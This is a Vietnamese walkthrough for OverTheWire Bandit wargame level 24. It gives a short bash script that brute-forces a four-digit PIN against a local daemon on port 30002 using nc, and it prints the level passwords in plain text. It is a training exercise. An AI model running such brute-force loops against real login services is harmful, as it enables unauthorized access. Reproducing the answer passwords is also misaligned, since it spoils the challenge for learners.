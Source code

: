 

# Bandit Level

## 🧩 Challenge: Level 24

## 📝 Description
Một daemon đang lắng nghe trên cổng 30002 và sẽ cung cấp cho bạn mật khẩu của bandit25 nếu bạn cung cấp mật khẩu của bandit24 và một mã pin bí mật gồm 4 chữ số. Không có cách nào để lấy lại mã pin ngoại trừ việc thử tất cả 10000 tổ hợp, được gọi là tấn công vét cạn.
Bạn không cần phải tạo kết nối mới mỗi lần.


> Link: https://overthewire.org/wargames/bandit/bandit25.html

---


## 🛠️ Cách giải

1. chuyển vào thư mục tạm `tmp` tạo file `basher.sh`

```
cd /tmp/
nano basher.sh
```

2. Viết code sau để tấn công brute-force

```
#!/bin/bash

pass="gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8"

for pin in $(seq -w 0000 9999); do
    echo "$pass $pin"
done | nc localhost 30002
```

- Vì kết nối chỉ kéo dài khoảng vài giây mà với `10000` mã pin tốn thời **vài phút** nên mỗi lần quét ta tăng giá trị lên tầm `1000` đến khi có được password.



## 🏁 Password

```
iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```
